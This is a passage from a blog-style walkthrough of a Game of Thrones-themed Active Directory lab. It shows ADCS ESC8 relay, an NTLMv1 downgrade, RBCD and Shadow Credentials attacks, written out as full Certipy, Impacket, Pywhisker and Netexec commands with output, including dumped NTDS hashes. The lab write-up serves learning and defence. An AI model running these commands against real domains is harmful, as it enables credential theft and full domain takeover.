[*] Trying to get CA configuration for 'ESSOS-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Got CA configuration for 'ESSOS-CA'
[*] Saved BloodHound data to 'recon/essos_adcs_Certipy.zip'. Drag and drop the file into the BloodHound GUI from @ly4k
[-] Could not find user 'EDDARD.STARK'
[-] Got error: 'NoneType' object has no attribute 'get'
[-] Use -debug to print a stacktrace
```

For some reason my Certipy was refusing to spit out the text file with the `-text` attribute so I had to browse the JSON files instead.

The `SEVENKINGDOMS` ADCS server only exposed the `DOMAINCONTROLLER` and `DOMAINCONTROLLERAUTHENTICATION` templates which may be of use. If I was able to coerce DC authentication and relay it to a vulnerable web enrollment service on the ADCS server, then I may be able to execute ESC8. However, I noticed that the ADCS server and the DC are the same host, and relaying authentication from a host to itself will not work. So that path is no gucci.

On the other hand, the `ESSOS` ADCS server exposed *fun* templates, namely: ESC4, ESC3-CRA, ESC3, ESC2, ESC1; however, most of these required access to `Domain Users` of `ESSOS.LOCAL`. Here is an example of what the ESC4 template looked like:

```json
<...snip...>
	"name": "ESC4@ESSOS.LOCAL",
        "highvalue": false,
        "Template Name": "ESC4",
        "Display Name": "ESC4",
        "Certificate Authorities": [
          "ESSOS-CA"
        ],
        "Enabled": true,
        "Client Authentication": false,
        "Enrollment Agent": false,
        "Any Purpose": false,
        "Enrollee Supplies Subject": false,
        "Certificate Name Flag": [
          "SubjectRequireDirectoryPath",
          "SubjectRequireEmail",
          "SubjectAltRequireUpn"
        ],
        "Enrollment Flag": [
          "AutoEnrollment",
          "PublishToDs",
          "PendAllRequests",
          "IncludeSymmetricAlgorithms"
        ],
        "Private Key Flag": [
          "ExportableKey"
        ],
        "Extended Key Usage": [
          "Code Signing"
        ],
        "Requires Manager Approval": true,
        "Requires Key Archival": false,
        "Authorized Signatures Required": 1,
        "Validity Period": "1 year",
        "Renewal Period": "6 weeks",
        "Minimum RSA Key Length": 2048,
        "domain": "ESSOS.LOCAL"
      },
      "ObjectIdentifier": "8f55bfdc-57de-496d-a894-a81ca2efcfe8",
      "Aces": [
        {
          "PrincipalSID": "S-1-5-21-1920550979-1564473321-1517388242-519",
          "PrincipalType": "Group",
          "RightName": "Owns",
          "IsInherited": false
        },
        {
          "PrincipalSID": "S-1-5-21-1920550979-1564473321-1517388242-513",
          "PrincipalType": "Group",
          "RightName": "Enroll",
          "IsInherited": false
        },
<...snip...>
```

It is worth noting that the `DomainController` template was also enabled for `ESSOS`, and since `BRAAVOS.ESSOS.LOCAL` is the ADCS server and there was another DC in the domain, `MEEREEN.ESSOS.LOCAL`, I might be able to perform the ESC8 exploit here.

So, I checked if the web enrollment service was enabled on the `BRAAVOS.SEVENKINGDOMS.LOCAL`. I did this by browsing to `http://10.2.10.23/certsrv/certfnsh.asp` and seeing if an HTTP NTLM authentication prompt was returned. If it was, then odds are I can use it for ESC8, and in my case, it was returned.

<div style="text-align:center"></div>

To validate the other piece of the attack, DC authentication coercion, I ran Coercer against the `ESSOS` DC at `10.2.10.12` while having Responder running simultaneously.

<div style="text-align:center"></div>

Looks like I got a hit! I was able to coerce authentication from the `ESSOS` DC using `SAMWELL.TARLY`‘s credentials that I obtained initially. Given this success, I technically had all the working pieces for the ESC8 attack.

If you are familiar with NTLM hashes, there’s another possible exploit that you may have noticed in the above screenshot from Responder. The DC responded to me with an NTLMv1 hash, which can pretty much be recovered instantaneously using a service such as `crack.sh` (I would advise against using this service on a real-life pentest, but for the sake of a CTF, it is fair game). Let’s explore both of those paths here.

### NTLMv1 Exploitation

To take advantage of the NTLMv1 authentication and crack.sh, I had to slightly modify `Responder.py`‘s configuration so that it uses a pre-defined challenge during NTLM negotiation. That is because `crack.sh` used that specific challenge during computation of its rainbow table. To modify the Responder configuration file, I browsed to the `Responder.py` directory and opened up the `Responder.conf` file. Then modified the Challenge variable to `1122334455667788`:

<div style="text-align:center"></div>

After saving the modified config, I relaunched Responder to catch the coerced auth from the DC again.

*Note: if you get a message from Responder stating “Skipping previously captured hash for ESSOS\MEEREEN$”, simply restart it with the `-v` switch which will print the hash despite it being previously captured.*

<div style="text-align:center"></div>

You’ll notice in the screenshot above that the hash was sent back with SSP. I had to downgrade this hash to just NTLMv1 if I wanted to use `crack.sh` for free. While it was still possible to recover the password with an NTLMv1-SSP hash, I would have had to run it locally if I wanted to do it for free (and it may take a few days depending on the cracking rig).

So I attempted to remove the SSP by re-launching Responder with `--lm` argument and coercing authentication once again.

<div style="text-align:center"></div>

Success! I got the downgraded NTLMv1 hash. With the hash in hand, I could now use EvilMog’s [Ntlmv1-multi](https://github.com/evilmog/ntlmv1-multi) tool to transform the obtained hash into a crack.sh compatible format. Unfortunately for me, `crack.sh` cracking services were down for maintenance at the time of writing this blog post, so I was unable to further demonstrate this attack path. But know that we are nearly 2-3 steps away from recovering the credential material for this DC.

### ESC8 Exploitation

To continue with the ADCS exploitation path, I went ahead and attempted the ESC8 privilege escalation method. I used Certipy to execute this attack, but it can also be done with Ntlmrelayx.

After running my `certipy` command, I triggered coercer in the same manner as during testing, and the DC called back to my Kali. The DC’s auth was forwarded to the `BRAAVOS` ADCS server, which spit out a `meereen.pfx`, an authentication certificate for the DC.

*Note: the reason I included the `-forever` argument is because the pesky `ROB.STARK` kept authenticating to me and I had to battle him for authentication to my Certipy.*

```
# certipy relay -target http://10.2.10.23 -template DomainController -forever

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Targeting http://10.2.10.23/certsrv/certfnsh.asp (ESC8)
[*] Listening on 0.0.0.0:445
ESSOS\MEEREEN$
[*] Requesting certificate for 'ESSOS\\MEEREEN$' based on the template 'DomainController'
[*] Got certificate with DNS Host Name 'meereen.essos.local'
[*] Certificate object SID is 'S-1-5-21-1920550979-1564473321-1517388242-1001'
[*] Saved certificate and private key to 'meereen.pfx'
```

I could now use the `certipy` auth command to authenticate with the generated .pfx file and get the DC’s hash.

```
# certipy auth -pfx meereen.pfx -dc-ip 10.2.10.12

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: meereen$@essos.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'meereen.ccache'
[*] Trying to retrieve NT hash for 'meereen$'
[*] Got hash for 'meereen$@essos.local': aad3b435b51404eeaad3b435b51404ee:f9ad1333f42690227ac5c70d9d2ccd4e
```

Next, I confirmed that the hash was working by authenticating using the DC’s machine account via Netexec.

```
# nxc smb 10.2.10.12 -u meereen\$ -H f9ad1333f42690227ac5c70d9d2ccd4e

SMB         10.2.10.12      445    MEEREEN          [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:MEEREEN) (domain:essos.local) (signing:True) (SMBv1:True)
SMB         10.2.10.12      445    MEEREEN          [+] essos.local\meereen$:f9ad1333f42690227ac5c70d9d2ccd4e
```

It worked! Only thing left to do was to dump out hashes and wrap up compromise of this domain.

```
# secretsdump.py essos.local/meereen\$@10.2.10.12 -hashes :f9ad1333f42690227ac5c70d9d2ccd4e -just-dc-ntlm

Impacket v0.11.0 - Copyright 2023 Fortra

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:54296a48cd30259cc88095373cec24da:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:4238192ee115bf46fc403bcef5db2e41:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
localuser:1000:aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c:::
daenerys.targaryen:1112:aad3b435b51404eeaad3b435b51404ee:34534854d33b398b66684072224bb47a:::
viserys.targaryen:1113:aad3b435b51404eeaad3b435b51404ee:d96a55df6bef5e0b4d6d956088036097:::
khal.drogo:1114:aad3b435b51404eeaad3b435b51404ee:739120ebc4dd940310bc4bb5c9d37021:::
jorah.mormont:1115:aad3b435b51404eeaad3b435b51404ee:4d737ec9ecf0b9955a161773cfed9611:::
missandei:1116:aad3b435b51404eeaad3b435b51404ee:1b4fd18edf477048c7a7c32fda251cec:::
drogon:1117:aad3b435b51404eeaad3b435b51404ee:195e021e4c0ae619f612fb16c5706bb6:::
sql_svc:1118:aad3b435b51404eeaad3b435b51404ee:84a5092f53390ea48d660be52b93b804:::
MEEREEN$:1001:aad3b435b51404eeaad3b435b51404ee:f9ad1333f42690227ac5c70d9d2ccd4e:::
BRAAVOS$:1104:aad3b435b51404eeaad3b435b51404ee:db93da51a29078cf72b2afde13010606:::
gmsaDragon$:1119:aad3b435b51404eeaad3b435b51404ee:8d80f65810e84ace68363b8dc91ed903:::
SEVENKINGDOMS$:1105:aad3b435b51404eeaad3b435b51404ee:e856402d05ac62577da64cf56f95bd69:::
[*] Cleaning up...
```

<b>ESSOS.LOCAL = owned!</b>

After the compromise I decided to explore Bloodhound to see if any of the `ESSOS` users had any interesting permissions over users or groups in `SEVENKINGDOMS.LOCAL`. 

The `MISSANDEI` account had `GenericAll` rights over `KHAL.DROGO`, which essentially meant that `MISSANDEI` had full control over that account. In my case, I did not care as I had `KHAL.DROGO`‘s hash anyway.

`JORAH.MORMONT` had some interesting group memberships, mainly the `REMOTE DESKTOP USERS` group. Ultimately, nothing that would be useful to me immediately.

The other users also had some permissions, but mainly ones that affected each other. However, the dragon queen herself, `DAENERYS.TARGARYEN`, held membership in `ACROSSTHENARROWSEE@SEVENKINGDOMS.LOCAL` group. The group granted `GenericAll` permissions over the `KINGSLANDING` DC of `SEVENKINGDOMS`. Well that would be my attack path to compromise the final domain!

<div style="text-align:center"></div>

## Alternative Path - Final Domain Compromise

I had two paths to exploit the permissions that `DAENERYS.TARGARYEN` held over the `KINGSLANDING` DC. I could have either performd a Resource-Based Constrained Delegation (RBCD) attack or a Shadow Credentials attack.

I decided to explore both just for the sake of trying things out.

### Resource-Based Constrained Delegation Exploitation

To perform the RBCD attack, I first needed a machine account (or an account with an SPN configured) that I could control. This is because I will essentially be granting the machine account (or SPN-enabled account) permissions to act on behalf of the DC. For a full explanation of this attack, I recommend reading [this blog post](https://medium.com/@offsecdeer/a-practical-guide-to-rbcd-exploitation-a3f1a47267d5).

Well, I did not have access to either at the time. As such, I decided to try and create a machine account within the `SEVENKINGDOMS` domain via the Addcomputer utility from Impacket.

*Note: machine account creation may be possible if the Machine Account Quota (MAQ) and/or GPO allow it. Even regular domain users may have the permissions to do so (they do by default!).*

```
# addcomputer.py essos.local/daenerys.targaryen -hashes :34534854d33b398b66684072224bb47a -computer-name intruder -computer-pass secretpass1234 -baseDN "DC=SEVENKINGDOMS,DC=LOCAL" -dc-ip 10.2.10.10

Impacket v0.11.0 - Copyright 2023 Fortra

[*] Successfully added machine account intruder$ with password secretpass1234.
```

I included the `-baseDN "DC=SEVENKINGDOMS,DC=LOCAL"` argument just to make sure that the account is created within `SEVENKINGDOMS` versus `ESSOS`.

The command executed successfully, granting me a Domain Computer account that I could perform RBCD with. Prior to doing so, I validated that the credentials for the new machine account were valid and I could authenticate with them.

```
# nxc smb 10.2.10.10 -u intruder\$ -p secretpass1234

SMB         10.2.10.10      445    KINGSLANDING     [*] Windows 10 / Server 2019 Build 17763 x64 (name:KINGSLANDING) (domain:sevenkingdoms.local) (signing:True) (SMBv1:False)
SMB         10.2.10.10      445    KINGSLANDING     [+] sevenkingdoms.local\intruder$:secretpass1234
```

The creds worked! I was good to go.

The next step was to execute the `rbcd.py` utility from Impacket to grant my newly created machine account the necessary delegation rights to the `KINGSLANDING` DC.

```
# rbcd.py -delegate-to "KINGSLANDING$" -delegate-from "intruder$" -dc-ip 10.2.10.10 -action write ESSOS.LOCAL/daenerys.targaryen -hashes :34534854d33b398b66684072224bb47a

Impacket v0.11.0 - Copyright 2023 Fortra

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] intruder$ can now impersonate users on KINGSLANDING$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     intruder$    (S-1-5-21-3246286080-1806464247-3468326668-1124)
```

Next, I used the `getST.py` Impacket tool to request the Kerberos ticket for the `CIFS` service of the DC so that I could dump hashes. This is similar to what I initially did to compromise the `NORTH` domain by abusing delegation rights granted to `JON.SNOW`.

One last piece of the puzzle was a DA account to impersonate. The `Administrator` account would often suffice, but to keep it thematic I picked one of the GOT characters instead. I checked Bloodhound and saw that `CERSEI.LANNISTER` and `ROBERT.BARATHEON` were both DAs. Let’s pick on the Lannisters in this case.

```
# getST.py -spn "CIFS/KINGSLANDING.SEVENKINGDOMS.LOCAL" -impersonate "cersei.lannister" sevenkingdoms.local/intruder\$:secretpass1234 -dc-ip 10.2.10.10

Impacket v0.11.0 - Copyright 2023 Fortra

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating cersei.lannister
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in cersei.lannister.ccache
```

To complete the attack, I dumped the hashes for `SEVENKINGDOMS`.

```
# KRB5CCNAME=./cersei.lannister.ccache nxc smb 10.2.10.10 --use-kcache --ntds

[!] Dumping the ntds can crash the DC on Windows Server 2019. Use the option --user <user> to dump a specific user safely or the module -M ntdsutil [Y/n]
SMB         10.2.10.10      445    KINGSLANDING     [*] Windows 10 / Server 2019 Build 17763 x64 (name:KINGSLANDING) (domain:sevenkingdoms.local) (signing:True) (SMBv1:False)
SMB         10.2.10.10      445    KINGSLANDING     [+] sevenkingdoms.local\cersei.lannister from ccache (Pwn3d!)
SMB         10.2.10.10      445    KINGSLANDING     [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         10.2.10.10      445    KINGSLANDING     Administrator:500:aad3b435b51404eeaad3b435b51404ee:c66d72021a2d4744409969a581a1705e:::
SMB         10.2.10.10      445    KINGSLANDING     Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.2.10.10      445    KINGSLANDING     krbtgt:502:aad3b435b51404eeaad3b435b51404ee:0637ab576c34b0072d09cda7dbc7e667:::
SMB         10.2.10.10      445    KINGSLANDING     localuser:1000:aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c:::
SMB         10.2.10.10      445    KINGSLANDING     tywin.lannister:1113:aad3b435b51404eeaad3b435b51404ee:af52e9ec3471788111a6308abff2e9b7:::
SMB         10.2.10.10      445    KINGSLANDING     jaime.lannister:1114:aad3b435b51404eeaad3b435b51404ee:12e3795b7dedb3bb741f2e2869616080:::
SMB         10.2.10.10      445    KINGSLANDING     cersei.lannister:1115:aad3b435b51404eeaad3b435b51404ee:c247f62516b53893c7addcf8c349954b:::
SMB         10.2.10.10      445    KINGSLANDING     tyron.lannister:1116:aad3b435b51404eeaad3b435b51404ee:b3b3717f7d51b37fb325f7e7d048e998:::
SMB         10.2.10.10      445    KINGSLANDING     robert.baratheon:1117:aad3b435b51404eeaad3b435b51404ee:9029cf007326107eb1c519c84ea60dbe:::
SMB         10.2.10.10      445    KINGSLANDING     joffrey.baratheon:1118:aad3b435b51404eeaad3b435b51404ee:3b60abbc25770511334b3829866b08f1:::
SMB         10.2.10.10      445    KINGSLANDING     renly.baratheon:1119:aad3b435b51404eeaad3b435b51404ee:1e9ed4fc99088768eed631acfcd49bce:::
SMB         10.2.10.10      445    KINGSLANDING     stannis.baratheon:1120:aad3b435b51404eeaad3b435b51404ee:d75b9fdf23c0d9a6549cff9ed6e489cd:::
SMB         10.2.10.10      445    KINGSLANDING     petyer.baelish:1121:aad3b435b51404eeaad3b435b51404ee:6c439acfa121a821552568b086c8d210:::
SMB         10.2.10.10      445    KINGSLANDING     lord.varys:1122:aad3b435b51404eeaad3b435b51404ee:52ff2a79823d81d6a3f4f8261d7acc59:::
SMB         10.2.10.10      445    KINGSLANDING     maester.pycelle:1123:aad3b435b51404eeaad3b435b51404ee:9a2a96fa3ba6564e755e8d455c007952:::
SMB         10.2.10.10      445    KINGSLANDING     KINGSLANDING$:1001:aad3b435b51404eeaad3b435b51404ee:de1956f4d589614b4f90f7f1d445ab23:::
SMB         10.2.10.10      445    KINGSLANDING     intruder$:1124:aad3b435b51404eeaad3b435b51404ee:822ef4ccdf4e41c8d749b9c766e36b02:::
SMB         10.2.10.10      445    KINGSLANDING     NORTH$:1104:aad3b435b51404eeaad3b435b51404ee:1a9fa36e47adf4e38aadca283cc7b499:::
SMB         10.2.10.10      445    KINGSLANDING     ESSOS$:1105:aad3b435b51404eeaad3b435b51404ee:e856402d05ac62577da64cf56f95bd69:::
SMB         10.2.10.10      445    KINGSLANDING     [+] Dumped 19 NTDS hashes to /home/kali/.nxc/logs/KINGSLANDING_10.2.10.10_2024-08-16_125810.ntds of which 15 were added to the database
SMB         10.2.10.10      445    KINGSLANDING     [*] To extract only enabled accounts from the output file, run the following command:
SMB         10.2.10.10      445    KINGSLANDING     [*] cat /home/kali/.nxc/logs/KINGSLANDING_10.2.10.10_2024-08-16_125810.ntds | grep -iv disabled | cut -d ':' -f1
SMB         10.2.10.10      445    KINGSLANDING     [*] grep -iv disabled /home/kali/.nxc/logs/KINGSLANDING_10.2.10.10_2024-08-16_125810.ntds | cut -d ':' -f1
```

Voila! Environment pwned via an intended method!

### Shadow Credentials Exploitation

Shadow credential path is slightly less complicated as I did not necessarily need a machine account to perform the attack.

With this attack, we are dealing with the PKI infrastructure, so there are some requirements prior to this attack being viable. Mainly, PKINIT needs to be supported, DC running 2016+, ADCS/CA present in the domain. Well, we know that the KINGSLANDING DC is also an ADCS server, so that checks out, and we also know that the server is running Server 2019 because Netexec told us so before. So I should be good to proceed.

To exploit this configuration, I needed Whisker, or rather [Pywhisker](https://github.com/ShutdownRepo/pywhisker.git) since I am on Linux. This command generated a certificate for me to use for authentication along with a password (returned within the output of the command).

```
# python3 pywhisker.py -d essos.local -u daenerys.targaryen -H 34534854d33b398b66684072224bb47a --target "KINGSLANDING$" -td SEVENKINGDOMS.LOCAL --action add --dc-ip 10.2.10.10 --filename cert

[*] Searching for the target account
[*] Target user found: CN=KINGSLANDING,OU=Domain Controllers,DC=sevenkingdoms,DC=local
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: 1b5a45bf-ba8e-14ee-414c-446a2815ced6
[*] Updating the msDS-KeyCredentialLink attribute of KINGSLANDING$
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[+] Saved PFX (#PKCS12) certificate & key at path: cert.pfx
[*] Must be used with password: sc9toXJDPxoTeLNnXUoh
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
```

<br>
<div style="background-color: #F0C4B49C; padding: 5px; border-radius: 10px">
	<p style="color: #000000">
		If you run into an issue where Pywhisker spits out an error stating module 'OpenSSL.crypto' has no attribute 'PKCS12' simply run the following.
        <br>
        <pre><code>pip3 uninstall pyOpenSSL
pip3 install pyOpenSSL==22.1.0</code></pre>
    </p>
</div>
<br>

I could now validate that all went well by simply switching the `--action` argument to `list` from `write` and checking the attached `DeviceIDs`.

```
# python3 pywhisker.py -d essos.local -u daenerys.targaryen -H 34534854d33b398b66684072224bb47a --target "KINGSLANDING$" -td SEVENKINGDOMS.LOCAL --action list --dc-ip 10.2.10.10

[*] Searching for the target account
[*] Target user found: CN=KINGSLANDING,OU=Domain Controllers,DC=sevenkingdoms,DC=local
[*] Listing devices for KINGSLANDING$
[*] DeviceID: 1b5a45bf-ba8e-14ee-414c-446a2815ced6 | Creation Time (UTC): 2024-08-16 17:13:18.980633
```

The `DeviceID` corresponds to the one previously spit out by Pywhisker during my initial run, so I should be good to go.

To request a TGT using the .pfx certificate generated by Pywhisker, I needed to employ the [PKINITTools](https://github.com/dirkjanm/PKINITtools), specifically the `gettgtpkinit.py` tool.

```
# python3 gettgtpkinit.py -cert-pfx ~/Desktop/creds/cert.pfx -dc-ip 10.2.10.10 SEVENKINGDOMS.LOCAL/KINGSLANDING\$ -pfx-pass sc9toXJDPxoTeLNnXUoh kingslanding.ccache

2024-08-16 13:24:33,881 minikerberos INFO     Loading certificate and key from file
2024-08-16 13:24:33,892 minikerberos INFO     Requesting TGT
2024-08-16 13:24:33,905 minikerberos INFO     AS-REP encryption key (you might need this later):
2024-08-16 13:24:33,905 minikerberos INFO     f5d0575e8821daf05385f6f468ce54bd685cb4f4e609ce94f72d97545b9acb07
2024-08-16 13:24:33,907 minikerberos INFO     Saved TGT to file
```

*Note: you can go a step further and use `getnthash.py` to get yourself the NTLM hash for `KINGSLANDING`.*

With the TGT saved to .ccache file, I could now proceed to extract the NTDS from the DC and complete the compromise.

```
# KRB5CCNAME=./kingslanding.ccache nxc smb 10.2.10.10 --use-kcache --ntds --dns-server 10.2.10.10

[!] Dumping the ntds can crash the DC on Windows Server 2019. Use the option --user <user> to dump a specific user safely or the module -M ntdsutil [Y/n]
SMB         10.2.10.10      445    KINGSLANDING     [*] Windows 10 / Server 2019 Build 17763 x64 (name:KINGSLANDING) (domain:sevenkingdoms.local) (signing:True) (SMBv1:False)
SMB         10.2.10.10      445    KINGSLANDING     [+] sevenkingdoms.local\KINGSLANDING$ from ccache
SMB         10.2.10.10      445    KINGSLANDING     [-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
SMB         10.2.10.10      445    KINGSLANDING     [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         10.2.10.10      445    KINGSLANDING     Administrator:500:aad3b435b51404eeaad3b435b51404ee:c66d72021a2d4744409969a581a1705e:::
SMB         10.2.10.10      445    KINGSLANDING     Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.2.10.10      445    KINGSLANDING     krbtgt:502:aad3b435b51404eeaad3b435b51404ee:0637ab576c34b0072d09cda7dbc7e667:::
SMB         10.2.10.10      445    KINGSLANDING     localuser:1000:aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c:::
SMB         10.2.10.10      445    KINGSLANDING     tywin.lannister:1113:aad3b435b51404eeaad3b435b51404ee:af52e9ec3471788111a6308abff2e9b7:::
SMB         10.2.10.10      445    KINGSLANDING     jaime.lannister:1114:aad3b435b51404eeaad3b435b51404ee:12e3795b7dedb3bb741f2e2869616080:::
SMB         10.2.10.10      445    KINGSLANDING     cersei.lannister:1115:aad3b435b51404eeaad3b435b51404ee:c247f62516b53893c7addcf8c349954b:::
SMB         10.2.10.10      445    KINGSLANDING     tyron.lannister:1116:aad3b435b51404eeaad3b435b51404ee:b3b3717f7d51b37fb325f7e7d048e998:::
SMB         10.2.10.10      445    KINGSLANDING     robert.baratheon:1117:aad3b435b51404eeaad3b435b51404ee:9029cf007326107eb1c519c84ea60dbe:::
SMB         10.2.10.10      445    KINGSLANDING     joffrey.baratheon:1118:aad3b435b51404eeaad3b435b51404ee:3b60abbc25770511334b3829866b08f1:::
SMB         10.2.10.10      445    KINGSLANDING     renly.baratheon:1119:aad3b435b51404eeaad3b435b51404ee:1e9ed4fc99088768eed631acfcd49bce:::
SMB         10.2.10.10      445    KINGSLANDING     stannis.baratheon:1120:aad3b435b51404eeaad3b435b51404ee:d75b9fdf23c0d9a6549cff9ed6e489cd:::
SMB         10.2.10.10      445    KINGSLANDING     petyer.baelish:1121:aad3b435b51404eeaad3b435b51404ee:6c439acfa121a821552568b086c8d210:::
SMB         10.2.10.10      445    KINGSLANDING     lord.varys:1122:aad3b435b51404eeaad3b435b51404ee:52ff2a79823d81d6a3f4f8261d7acc59:::
SMB         10.2.10.10      445    KINGSLANDING     maester.pycelle:1123:aad3b435b51404eeaad3b435b51404ee:9a2a96fa3ba6564e755e8d455c007952:::
SMB         10.2.10.10      445    KINGSLANDING     KINGSLANDING$:1001:aad3b435b51404eeaad3b435b51404ee:de1956f4d589614b4f90f7f1d445ab23:::
SMB         10.2.10.10      445    KINGSLANDING     intruder$:1124:aad3b435b51404eeaad3b435b51404ee:822ef4ccdf4e41c8d749b9c766e36b02:::
SMB         10.2.10.10      445    KINGSLANDING     NORTH$:1104:aad3b435b51404eeaad3b435b51404ee:1a9fa36e47adf4e38aadca283cc7b499:::
SMB         10.2.10.10      445    KINGSLANDING     ESSOS$:1105:aad3b435b51404eeaad3b435b51404ee:e856402d05ac62577da64cf56f95bd69:::
SMB         10.2.10.10      445    KINGSLANDING     [+] Dumped 19 NTDS hashes to /home/kali/.nxc/logs/KINGSLANDING_10.2.10.10_2024-08-16_132618.ntds of which 15 were added to the database
SMB         10.2.10.10      445    KINGSLANDING     [*] To extract only enabled accounts from the output file, run the following command:
SMB         10.2.10.10      445    KINGSLANDING     [*] cat /home/kali/.nxc/logs/KINGSLANDING_10.2.10.10_2024-08-16_132618.ntds | grep -iv disabled | cut -d ':' -f1
SMB         10.2.10.10      445    KINGSLANDING     [*] grep -iv disabled /home/kali/.nxc/logs/KINGSLANDING_10.2.10.10_2024-08-16_132618.ntds | cut -d ':' -f1
```

And that’s how the shadow credential path would lead to compromise!

<hr style="height: 2px">

## Closing Thoughts

So yeah, I just couldn’t help myself. Very fun lab indeed, and it is a great way to get exposure to Active Directory exploitation without having to do it in the field!

I do invite you to hop into GOAD yourself and see what other paths you can find! I know there are more, especially given the SQL server setup. There’s also the possible initial authenticated foothold via relayed credentials.

But anyway, thanks for reading! If you do find some cool pwn methods in this lab, hit me up and share! I would love to hear about what you could come up with.

**See you on the next one!**
